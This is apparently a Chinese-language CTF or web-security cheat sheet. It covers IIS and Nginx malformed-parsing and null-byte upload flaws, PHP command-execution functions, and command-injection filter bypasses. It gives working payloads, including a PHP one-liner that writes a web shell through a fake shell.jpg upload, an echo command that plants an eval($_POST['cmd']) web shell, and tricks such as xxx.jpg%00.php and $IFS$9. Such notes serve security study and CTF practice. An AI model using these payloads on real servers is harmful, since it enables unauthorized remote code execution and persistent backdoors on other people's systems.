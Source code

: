   - IIS 7.0/7.5/ Ngnix<8.03畸形解析漏洞

    - 在默认Fast_CGI开启下，上传一个名为shell.jpg的文件，内容为：
    - `<?php fputs(fopen('shell.php','w'),'<?php eval($_POST['cmd'])?>');?>`
    - 然后访问shell.jpg/.php，就会生成shell.php文件
  
  - Ngnix空字节代码执行漏洞

    - 版本：0.5、0.6、0.7<=0.7.65 、0.8<=0.8.37

    - 在图片中嵌入php代码后访问：`xxx.jpg%00.php`来执行代码

## 三、RCE

- 常见操作命令

  - 常见命令执行函数
    - system()
    - passthru()
    - exec()
    - shell_exec()
    - `反引号
    - ob_start()

  - 1.查看文件

    - **<font color='red'>linux查看文件命令</font>**![](https://api2.mubu.com/v3/document_image/9d92c7b7-692a-4245-bb71-e28aae82ea48-10191865.jpg)

    - <font color='red'>windows：type flag.txt</font>

  - 2.查找文件

    - [linux查找文件](https://blog.csdn.net/xxmonstor/article/details/80507769)

    - find命令![img](https://api2.mubu.com/v3/document_image/894f7bfb-df81-4091-bd7b-ef0076719340-10191865.jpg)

  - 3.写入文件

    - \>是覆写，>>是追加
  - `echo "<?php @eval($_POST["cmd"]);?>">shell.php`

  ## 绕过技巧

  - <font color='red'>1.管道符</font>

    - linux![](https://api2.mubu.com/v3/document_image/b2056527-0ac9-41ea-a4c7-5686aa631e44-10191865.jpg)

    - windows![](https://api2.mubu.com/v3/document_image/4cb6c028-a1a3-4564-b692-4d2c65ddcc7a-10191865.jpg)

  - <font color='red'>2.空格</font>

    - <  重定向符 or > <>

    - \$IFS$9
